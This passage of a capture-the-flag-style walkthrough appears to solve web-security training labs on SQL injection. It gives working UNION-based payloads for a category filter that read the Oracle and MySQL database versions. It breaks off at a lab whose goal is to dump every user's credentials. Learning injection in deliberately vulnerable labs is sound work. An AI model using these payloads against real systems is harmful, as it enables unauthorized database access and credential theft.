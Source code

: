 This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

Make the database retrieve the strings: 'Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production, PL/SQL Release 11.2.0.2.0 - Production, CORE 11.2.0.2.0 Production, TNS for Linux: Version 11.2.0.2.0 - Production, NLSRTL Version 11.2.0.2.0 - Production'

![image](https://user-images.githubusercontent.com/33444140/235354756-30e94167-685b-4de7-a325-040f9d1ac23a.png)

### Sol :

First we check the no of cols by injecting null values with dual for oracle database

        category=Gifts'+union+select+null,null+from+dual--

Then we give `SELECT * FROM v$version` to retreive the Oracle database info

        category=Gifts'+union+select+null,banner+from+v$version--
        
We will get the database info and lab got solved

![image](https://user-images.githubusercontent.com/33444140/235355211-844b8eaf-5ba2-4887-b105-f5012f86a243.png)

## Lab 8: SQL injection attack, querying the database type and version on MySQL and Microsoft.

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

Make the database retrieve the string: '8.0.32-0ubuntu0.20.04.2'

### Sol :

First we have to check the no of cols and string match :
    
        category=Gifts+union+select+null,'a'--
        
Then we give `select @@version` for MySQL and Microsoft version and `%23` for `#` to comment out.

        category=Gifts'+union+select+null,@@version%23
        
![image](https://user-images.githubusercontent.com/33444140/235367798-c5c89b60-5e10-4f1d-abc5-428882ae8e06.png)

## Lab 9: SQL injection attack, listing the database contents on non-Oracle databases

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
